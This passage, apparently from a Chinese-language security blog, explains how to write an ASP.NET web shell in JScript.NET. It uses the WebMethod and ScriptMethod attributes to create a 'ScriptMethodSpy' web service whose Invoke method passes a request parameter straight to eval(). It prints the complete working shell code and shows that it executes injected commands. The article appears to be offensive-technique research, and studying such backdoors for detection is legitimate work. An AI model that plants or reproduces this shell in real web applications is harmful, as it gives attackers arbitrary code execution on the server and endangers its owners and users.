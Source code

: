 当客户端请求的方式是AJAX的时候会导入System.Web.Script.Services.ScriptService命名空间，笔者尝试去挖掘一下可能存在的新的攻击点

[![](https://p3.ssl.qhimg.com/t01f9820463c1cdf194.png)](https://p3.ssl.qhimg.com/t01f9820463c1cdf194.png)

代码里ResponseFormat表示方法要返回的类型，一般为Json或者XML; UseHttpGet等于true表示前台的ajax是通过GET可以访问此方法，如果前台ajax通过POST，则报错。

根据C#中的代码可知需要配置WebMethod和ScriptMethod才能正常玩转，而在Jscript.Net中实现这两个功能的分类是WebMethodAttribute类和ScriptMethodAttribute类，最终写出一句话木马服务端代码：

```
&lt;%@ WebService Language="JScript" class="ScriptMethodSpy"%&gt;

import System;

import System.Web;

import System.IO;

import System.Web.Services

import System.Web.Script.Services

public class ScriptMethodSpy extends WebService

`{`

WebMethodAttribute ScriptMethodAttribute function Invoke(Ivan : String) : Void

`{`

var I = HttpContext.Current;

var Request = I.Request;

var Response = I.Response;

var Server = I.Server;

Response.Write("&lt;H1&gt;Just for Research Learning, Do Not Abuse It! Written By &lt;a href='https://github.com/Ivan1ee'&gt;Ivan1ee&lt;/a&gt;&lt;/H1&gt;");

eval(Ivan);

`}`

`}`
```

打开浏览器输入 Response.Write(DateTime.Now) 成功打印出当前时间

[![](https://p3.ssl.qhimg.com/t017bee5f80749eb320.png)](https://p3.ssl.qhimg.com/t017bee5f80749eb320.png)
